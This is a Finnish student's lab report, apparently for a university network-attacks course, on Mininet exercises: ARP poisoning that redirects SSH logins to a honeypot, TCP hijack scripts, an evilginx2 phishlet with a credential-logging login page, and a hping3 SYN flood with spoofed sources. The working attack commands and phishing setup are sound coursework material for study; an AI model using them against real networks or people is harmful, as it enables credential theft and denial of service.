








<!--- metadata

title: H5 - Lab- ja simulaatioympäristöt hyökkäyksissä
date: 23.11.2025
slug:
id: ICI013AS3A-3002
week: Week 47
summary: Raportissa käydään läpi mininet-harjoituksia: ICMP- ja TCP-hijack-, ARP-poisoning- ja SYN-flood-hyökkäyksiä sekä evilginx-työkalun kokeilu. Sisältö kuvaa ympäristöjen pystytyksen, testaukset, törmäykset käytännössä ja opit, mukaan lukien asennusvaiheet, ongelmat ja tulosten analyysi. Sisällössä runsaasti kuvia komentoja sekä testituloksia ja huomiota.
tags: [ "ICI013AS3A-3002", "Network Attacks"]

--->

Päätin kasata tänne kaikki harjoitukset sekä kotitehtävät yhteen paikkaan. Otsikot ovat muutettu muun sisällön muotoon ja eriävät hieman alkuperäisistä tehtävänannoista nimeltään, mutta tarkoitus on pysynyt samana. Olisin myöskin halunnut tehdä enemmän tehtäviä, mutta valtavasta työmäärästä johtuen, en ehtinyt enempää tällä viikolla tekemään. Näihin tehtäviin, ongelmien raktomiseen ja kaiken kirjoittamiseen meni noin 15 tuntia.

---

## a) Network-Security-Lab (mininet) [link to repo](https://github.com/ssam246/Network-Security-Lab). Tasks: 1. ICMP Proofing Attack, 2. MITM Attack Using ARP Cache Poisoning, 3. TCP Session hijacking attack

Aloitin lukemalla github repon ohjeet ja kloonaamalla kyseisen github repon komennolla:

```bash
git clone https://github.com/ssam246/Network-Security-Lab#
```

Sitten vaan käynnistettiin scripteistä löytyvä ympäristö tiedosto `hub_top.py` komennolla:

```bash
sudo pyhton hub_topo.py
```

ja lähettiin tekemään tehtäviä. Käynnistettiin xtermillä taas `h1` ja `h2`. Ja ajettiin ohjeiden mukaan komennot:

```bash
h1 pyhton sniff_icmp.py
h2 ping 10.0.0.1
```



Sitten seuraava tehtävä vaikutti olevan hieman ongelmallinen, sieltä ei nimittäin saanut mitään ulos joten en sisältäny sitä tähän. Mutta viimeisessä tehtävässä avataan h1, h2 ja h3 xtermit. Sitten ajettiin taas komennot:

```bash
h1 python tcp_server.py
h2 python tcp_client.py
h3 python sniff_tcp_session.py
h3 python tcp_hijack.py
```



Tässä seurasin ohjeita ja sain `sniff_tcp_session.py` scriptin toimimaan, mutta jostakin syystä mitään ei käynyt kun mä käytin `tcp_hijack.py` scriptiä. Ja vaikka kuvassa näyttää että olen sulkenut `sniff_tcp_session.py` scriptin niin kokeilin myös ajaa niitä eri terminaleista mutta en silti saanut tuloksia aikaseksi.

Tuntui että tästä tehtävästä ei niin paljoa ollut hyötyä, kun ei itse kirjoittanut scriptejä niin, itsessään ajaminen ei ainakaan ittelle opettanu paljoa mitään. En sit tiiä teinkö nyt tehtävänannon ohi mut siistii tietää et tällasiakin pystyy tekemään.

---

## b) ARP Poisoning, redirect ssh connection to another host

Tehävä aloitettiin lataamalla mininet VM kuva kurssi alustan kautta. Sieltä saatiin .ova kansio mistä voitiin avata tehtävässä käytetty mininet alusta. Tämän jälkeen VM käynnistettiin ja kirjauduttiin default tunnuksilla sisään `mininet:mininet`. Ohjeet tähän olivat mielestäni hieman epäselviä ja puutteellisia niin tässä on step-by-step ohje miten alusta saatiin toimintaan kyseisestä .ova kuvasta.

1. Käynnistä mininet VM ja kirjaudu sisään default tunnuksilla: `mininet:mininet`

2. Avaa toinen VM (hyökkäys VM) millä otat yhteyden mininet ympäristöön ja kirjaudu sisään default tunnuksilla.  Komennolla:

    ```bash
    ssh -X mininet@192.168.x.x
    ```

    Tässä kohtaa toi `-X` on tärkeä optio antaa, sillä se mahdollistaa tulevien xtermien käytön. Ilman sitä tämä ei toimi.

3. Hyökkäys VM:llä haetaan xterm `$DISPLAY`. Tämä tehdään jotta tarvittavat xterm:it toimisivat. Tätä varten mininet kuvassa oli sisälletty `get_xauth.sh` skripti joka ajetaan. Skriptin sisältö on `xauth list $DISPLAY`. Komennolla:

    ```bash
    ./get_xauth.sh
    ```

4. Vastauksessa cookie value on jokaisella yksilöllinen joten käytä sitä minkä saat sieltä ulos. Tässä vain esimerkki.

    ```bash
    mininet-vm/unix:10  MIT-MAGIC-COOKIE-1  4725b92c8be63ba0ac793116e51383c5
    ```

5. Aseta kyseinen cookie value aktiiviseksi komennolla:

    ```bash
    sudo -s xauth add mininet-vm/unix:[Yksilöllinen] MIT-MAGIC-COOKIE-1 [Yksilöllinen]
    ```

6. Siirry mininet VM ja käynnistä verkko kytkin ja jätä se päälle. Komennolla:

    ```bash
    ryu-manager ryu.app.simple_switch_13 &
    ```

    Tässä tärkeä on `&` mikä laittaa komennon pyörimään tasutalle. Sitten voit painaa enteriä kerran niin saat mininet terminalin takaisin käyttöön ja komento jää pyörimään tasutalle.

7. Siiry takaisin `Hyökkäys VM` puolelle ja laita käyntiin mininet hyökkäys koneella komennolla:

    ```bash
     sudo mn --topo single,3 --mac --switch ovsk --controller remote
    ```

    Tämä käynnistää mininetin hyökkäys koneella.

8. Testaa järjestelmää komennoilla:

    ```bash
    pingall
    xterm h1
    ```

    Kaiken pitäisi toimia nyt ongelmitta.

---

Itse tehtävään nyt.

Lähin seuraamaan kurssi materjaaleissa olevia ohjeita tässä. Eli ekaksi avasin kaikki xtermit. Ensimmäiseksi me halutaan saada perus näkymä h1 koneesta, joten siihen terminaaliin me haettiin `arp -n` taulukko näkyviin.



Sitten ajettiin perus komennot tämän koko hyökkäyksen tallentamiseksi ja ohjaamiseksi.

```bash
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 22
tcpdump –i h3-eth0 –w arp-p.pcap &
wireshark &
sshesame -port 22 -listen_address 0.0.0.0
```



Tämän jälkeen laitettiin `arp_poison.py` hyökkäys päälle, jonka jälkeen me lähettiin testaamaan, että onnistuuko tämä hyökkäys. Eli nyt kohde koneella joka on tässä tapauksessa `h1` yritetään ottaa `h2` koneelle ssh yhteyttä.



Hyökkäys ei toiminut ensimmäisellä kerralla sillä väärä ssh avain on käytössä. Eli se estää tämän hyökkäyksen, jos me kuitenkin onnistuttaisiin poistamaan avain `h1` koneella, niin hyökkäys toimisi. Tämä voisi onnistua kalastelun avulla tai jollakin muulla hyökkäyksellä, kun meidän pitää pystyä ajaa vain komento:

```bash
ssh-keygen -R h2
```

Ja ei muuta. Jos tämä onnistutaan ajamaan, unohtuu avain ja voidaan toteuttaa ARP poisoning hyökkäys. Kokeillaan.



Ja näin hyökkäys onnistui, ja me saatiin napattua erittäin mehukasta dataa ARP poisoning hyökkäyksellä. Tuloksista voi huomata että ensimmäisessä `h3` terminalissa, mikä on hyökkääjän näkymä, me nähdään kirjautumisesta tunnukset ja ssh versio.

---

## c) Tutustu [evilginx 3.0](https://github.com/kgretzky/evilginx2) työkaluun. Asensitko työkalun, jos asensit niin kirjoita miten sen teit. Mitä teit työkalun kanssa? Onnistuitko huijaamaan liikennettä?

Eli ensiksi lähdin asentamaan työkalua. Koska käytän debian pohjaista kali VM konetta niin se löytyy suoraan apt paketinhallinasta. Eli ihan vain komennolla:

```bash
sudo apt install evilginx2 -y
```

Se asentaa työkalun, eli melko suoraviivainen ja selkeä asennus. En aluksi oikeen osannut tehdä mitään työkalulla. Joten kysyin ChatGPT:ltä esimerkkiä, miten voisin testata työkalua omassa ympäristössä.

Prompt: `how can i test evilginx2 in my local environment`

Se heitti kaikkia ideoita ja sieltä tuli hyvä esimerkki mitä lähin testaamaan. Eli kirjautumis tietojen ja keksien varastamista.

Ensiksi mun piti tehä esimerkki kirjautumis sivu. Päätin tehä sen Node.js:llä kun se on mulle tutuin. Toteutin tän ChatGPT avulla nopeuttaakseen testausta. Loin sen avulla yksinkertaisen kirjautumis sivun:

Server koodi:

```js
const http = require("http");
const fs = require("fs");
const path = require("path");

function parseForm(req, callback) {
    let body = "";
    req.on("data", chunk => body += chunk);
    req.on("end", () => {
        const params = {};
        body.split("&").forEach(pair => {
            const [key, value] = pair.split("=");
            params[key] = decodeURIComponent(value || "");
        });
        callback(params);
    });
}

const server = http.createServer((req, res) => {
    if (req.method === "GET" && req.url === "/") {
        const htmlPath = path.join(__dirname, "views", "login.html");
        const html = fs.readFileSync(htmlPath, "utf8");

        res.writeHead(200, { "Content-Type": "text/html" });
        res.end(html);
        return;
    }

    if (req.method === "POST" && req.url === "/") {
        parseForm(req, data => {
            const { username, password } = data;

            fs.appendFileSync(
                path.join(__dirname, "creds.txt"),
                `${username}:${password}\n`
            );

            res.writeHead(200, {
                "Content-Type": "text/plain",
                "Set-Cookie": [
                    `SESSIONID=session-${username}; HttpOnly; SameSite=Lax`
                ]
            });

            res.end("Authentication complete.");
        });
        return;
    }

    res.writeHead(404);
    res.end("Not Found");
});

server.listen(8080, "127.0.0.1", () => {
    console.log("Login page running at http://127.0.0.1:8080");
});

```

Frontti näkymä:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Sign In</title>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">

    <style>
        body {
            background: #f2f3f5;
            font-family: Arial, sans-serif;
            display: flex;
            align-items: center;
            justify-content: center;
            height: 100vh;
            margin: 0;
        }
        .wrap {
            background: #fff;
            padding: 32px;
            border-radius: 8px;
            width: 100%;
            max-width: 360px;
            box-shadow: 0 4px 16px rgba(0,0,0,0.1);
        }
        h1 {
            font-size: 20px;
            margin-bottom: 24px;
        }
        label {
            display: block;
            margin-bottom: 6px;
            font-size: 14px;
        }
        input {
            width: 100%;
            padding: 10px;
            margin-bottom: 16px;
            border-radius: 4px;
            border: 1px solid #ccc;
        }
        button {
            width: 100%;
            padding: 12px;
            background: #2d6cdf;
            border: none;
            color: white;
            border-radius: 4px;
            cursor: pointer;
            font-size: 15px;
        }
    </style>
</head>
<body>
    <div class="wrap">
        <h1>Sign In</h1>
        <form method="POST" action="/">
            <label for="username">Username</label>
            <input id="username" name="username" autocomplete="username" required>

            <label for="password">Password</label>
            <input id="password" name="password" type="password" autocomplete="current-password" required>

            <button type="submit">Continue</button>
        </form>
    </div>
</body>
</html>
```

Sitten luotiin phishlet `fakecloud.yaml`

```yaml
name: fakecloud
min_ver: "3.0.0"
version: "1.0.0"
redirect_url: "http://login.fakecloud.local/"

proxy_hosts:
  - { phish_sub: "", orig_sub: "", domain: "login.fakecloud.local", session: true, is_landing: true, tls: false }

sub_filters:
  - { triggers_on: "login.fakecloud.local", orig_sub: "", domain: "login.fakecloud.local", search: "localhost", replace: "login.fakecloud.local", mimes: ["text/html"] }

credentials:
  username:
    key: "email"
    search: "email"
    type: "post"
  password:
    key: "password"
    search: "password"
    type: "post"

auth_tokens:
  - domain: "login.fakecloud.local"
    keys: ["SESSIONID"]
    type: cookie

auth_urls:
  - "/"

login:
  domain: "login.fakecloud.local"
  path: "/"

```

---

Joo no tässä puntaroin varmaan 5 tuntia mutta en saanut koskaan CA certifikaatteja toimimaan lokaalisti. Kokeilin monia eri asioita, mutta mikään ei oikeen auttanu niin päätin luovuttaa sit tän kanssa. Myöskin mä luulen et mulla oli jotenkin puutteellinen versio, kun siellä ei ollut mitään phishlettejä valmiina tai mitään sisältöö.

Eli yritin saada työkalun avulla kirjautumis tietoja sekä keksi tietoja, mutta en ikinä onnistunut huijaamaan liikennettä kun en sitä saanut koskaan toimimaan. Olisi mielenkiintoista nähdä miten tämä työkalu oikeesti käytännössä toimii.

Noh mut kuitenkin, opin ainakin miten sen systeemin kuuluis toimia, vaikka sitä en ikinä päässy kokeilee. En nyt myöskään tiiä et onks se vika mun koodeissa vai missä, mut certifikaatit osottautu mun pahimmaksi viholliseksi.

---

## d)  Luo ympäristö, jossa voit tehdä TCP SYN-Flood hyökkäyksen. Kirjoita miten loit mininet ympäristön ja miten toteutit hyökkäyksen

TCP SYN-Flood on `denial of service` hyökkäys missä koitetaan ylikuormittaa palvelin suurella määrällä avoimilla SYN paketeilla. Eli hyökkääjä lähettää paljon `SYN` paketteja mihin palvelin yrittää vastata `SYN-ACK` paketeilla mutta kun kukaan niihin ei vastaakkaan niin ne jäävät avoimiksi ja vievät palvelimelta resursseja.


Tämä usein kaataa palvelimen, tai vähintäänkin hidastaa sen toimintaa huomattavasti. Näitä hyökkäyksiä on myös monen eri tasoisia. Tässä teen yksinkertaisen version hyökkäyksestä.

Halusin rakentaa tämän täysin nollista joten lähdin lataamaan uutta valmista mininet VM imagea. Kun sain sen käyntiin niin kuin aikaisemmankin tehtävän koneen, niin otin siihen samalla tavalla yhteyttä ssh:lla. Tämän jälkeen loin oman kansion `TCP-SYN-Flood` tehtävän tiedostoille.

Aloitin kuitenkin asentamalla `xauth` ja `xterm` jotta voin käyttää tehtävässä xterm:ejä. Nämä eivät ole asennettuna valmiiksi. mutta komennolla:

```bash
sudp apt install xauth xterm
```

Me saadaan nämä molemmat asennettua ja toimintaan ongelmitta. Tämän jälkeen lähdin luomaan topologiaa harjoitukselle. Tässä kohtaa lähdin käyttämään apuna ChatGPT:tä. Prompti: `How would i create a mininet environment and simulate an TCP SYN flood attack?`

&nbsp;

Siitä sain sisällön `synlab.py` tiedostoon, mikä luo verkko topologian.

```py
#!/usr/bin/python3
from mininet.topo import Topo
from mininet.net import Mininet
from mininet.node import OVSController
from mininet.cli import CLI
from mininet.log import setLogLevel

class SynTopo(Topo):
    def build(self):
        h1 = self.addHost('h1')
        h2 = self.addHost('h2')
        s1 = self.addSwitch('s1')

        self.addLink(h1, s1)
        self.addLink(h2, s1)

def run():
    topo = SynTopo()
    net = Mininet(topo=topo, controller=OVSController)
    net.start()
    CLI(net)
    net.stop()

if __name__ == "__main__":
    setLogLevel('info')
    run()
```

Tämän jälkeen tein siitä ajettavan komennolla:

```bash
chmod 700 synlab.py
```

Tässä kohtaa pitää tehdä samat toimenpiteet kun aikaisemminkin eli aluksi hakea $DISPLAY cookie komennolla:

```bash
xauth list $DISPLAY
```

Tämän jälkeen voidaan lisätä tämä keksi `.Xauthority` tiedostoon komennolla:

```bash
sudo xauth add mininet-vm/unix:10  MIT-MAGIC-COOKIE-1  640cefaa7814807d852b21ea9e70f059
```

Tämän jälkeen voidaan käynnistää verkko ja myöskin tarvittavat `xterm:it`. Sitten käynnistin virtuaaliverkon ja ajoin testit että verkko toimii. Ja se toimi ongelmitta.

&nbsp;



Sitten avattiin tehtävään tarvittavat xtermit komennoilla:

```bash
xterm h1
xterm h2
```

Tässä tehtävässä mä päätin käyttää tilanteen seuraamiseen tcpdump sovellusta. `-n` optio tarkentaa vain että dataa mikä tulee niin sitä ei muuteta mitenkään, esimerkiksi ip osoitetta ei muuteta nimelliseksi osoitteeksi. `-i` tarkentaa vain interfacin eli mitä verkkokorttia me seurataan ja loppu osa on filtteriä minkä sain ChatGPT:ltä. Ajetaan komento `h2` koneella:

```bash
tcpdump -n -i h2-eth0 'tcp[tcpflags] & tcp-syn != 0'
```

Sitten itse hyökkäyksessä mä päätin käyttää hping3 työkalua, minkä mä löysin blogista kun asiasta googlasin. Tässä kannattaa olla tarkkana että käyttä isoa `-S` optiota eikä pientä. Sillä pieni -s tarkoittaa base porttia, eli käytännössä se aloittaa ja kasvattaa porttia kohteessa kunnes saadaan vastaus. Kun taas iso `-S` lähettää SYN paketteja.`h1` koneella komento mikä käynnistää tcp syn-flood hyökkäyksen:

```bash
hping3 -S --flood --rand--source -p 80 10.0.0.2
```

Ja booom me saatiin aikaseksi `TCP SYN-flood` hyökkäys `--rand-source` on vain sitä varten että se spoofaa ip osoitteen jotta kaikki ei näyttäisi että ne tulee samasta paikasta ja `--flood` lähettää niin nopeasti kuin vain mahdollista paketteja.

&nbsp;



Oli hyvä että tein harjoituksen ihan nollasta niin ymmärrän nyt mitä jokainen osa tekee, ja kuinka vähän asioita oikeasti tarvitaan DoS hyökkäyksiin.

---

### Lähteet

#### 1. Karvinen 2025. Verkkoon tunkeutuminen ja tiedustelu. Luettavissa: [[https://terokarvinen.com/verkkoon-tunkeutuminen-ja-tiedustelu/]] Luettu: 22.11.2025

#### 2. Mininet Luento materjaali. Network Protocols and Vulnerabilities. Luettavissa: [[https://hhmoodle.haaga-helia.fi/pluginfile.php/4347169/mod_resource/content/1/03-mininet.pdf]] Luettu: 22.11.2025

#### 3. Gretzky 2025. Evilginx 3.0 github repository. Luettavissa: [[https://github.com/kgretzky/evilginx2#]] Luettu: 22.11.2025

#### 4. Evilginx 2025. Evilginx documentation. Luettavissa: [[https://help.evilginx.com/community/]] Luettu: 22.11.2025

#### 5. Kurssialusta Moodle. Luettavissa: [[https://hhmoodle.haaga-helia.fi/course/view.php?id=44093&section=1#tabs-tree-start]] Luettu: 22.11.2025

#### 6. lantz 2025. Mininet Github repository. Luettavissa: [[https://github.com/mininet/mininet/releases/]] Luettu: 22.11.2025

#### 7. Mininet.org 2022. Download/Get Started With Mininet. Luettavissa: [[https://mininet.org/download/]] Luettu: 22.11.2025

#### 8. Spyboy 2023. How to properly do a TCP SYN flood attack. Luettavissa: [[https://spyboy.blog/2023/10/12/how-to-properly-do-a-tcp-syn-flood-attack/]] Luettu: 22.11.2025

#### 9. ssam246 2024. Network Security Lab. Luettavissa: [[https://github.com/ssam246/Network-Security-Lab#]] Luettu: 22.11.2025
